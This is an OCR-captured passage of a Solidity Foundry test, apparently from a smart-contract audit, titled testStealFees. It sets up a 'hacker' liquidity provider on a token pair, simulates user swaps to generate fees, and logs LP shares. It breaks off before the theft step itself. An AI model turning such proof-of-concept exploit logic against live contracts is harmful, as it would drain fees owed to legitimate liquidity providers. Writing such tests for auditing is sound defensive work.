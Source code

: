 ```solidity=
        uint256 earned = pair.earned(users.lp);
    }

    function _setUpAddress(address user) internal returns (uint wethStart, uint tokenStart) {
        (uint256 wethR, uint256 tokenR) = pair.getReserves();
        wethStart = wethR+ 1e18 ;
        tokenStart= tokenR+ 100e18 ;

        vm.deal(user,wethStart);
        _fundMe(IERC20(goat), user, tokenStart );
        vm.prank(user);
        weth.deposit{value: wethStart}();
    }

    function testStealFees() public {

        uint256 initialLPBalance = _setupPair();
 
        address hacker = address(0x1337);

        (uint wethStart, uint tokenStart) = _setUpAddress(hacker);

        // hacker adding Liquidity
        vm.startPrank(hacker);
        weth.transfer(address(pair), wethStart - 1e18);
        goat.transfer(address(pair), tokenStart - 100e18);
        pair.mint(hacker);
        vm.stopPrank();
        uint256 hackerInitialLpBalance = pair.balanceOf(hacker);
        uint256 hackerInitialWethBalance = weth.balanceOf(hacker);

        // Wait until lock time is over
        vm.warp(pair.lockedUntil(hacker) + 1);
        
        {//give user weth
        address swappingUser = address(0x002);

        uint256 wethSwap = 1e18;
        vm.deal(swappingUser, wethSwap);

        vm.startPrank(swappingUser);
        weth.deposit{value: wethSwap}();
        
        // simulate user swaps to add fees to protocol
        weth.transfer(address(pair), wethSwap);

        (uint wethReserveBefore, uint tokenReserveBefore) = pair.getReserves();
        uint amountTokenOut = GoatLibrary.getTokenAmountOutAmm(
            wethSwap,
            wethReserveBefore,
          tokenReserveBefore 
        );
        pair.swap(amountTokenOut, 0, swappingUser);
        vm.stopPrank();
        }

        (uint256 reservesWethAfterSwap, ) = pair.getReserves();

        console.log("the LPToken balance of the inital LP", initialLPBalance * 10000 / pair.totalSupply(), "BPS");
        console.log("the LPToken balance of the hacker", hackerInitialLpBalance * 10000 / pair.totalSupply(), "BPS");
        
```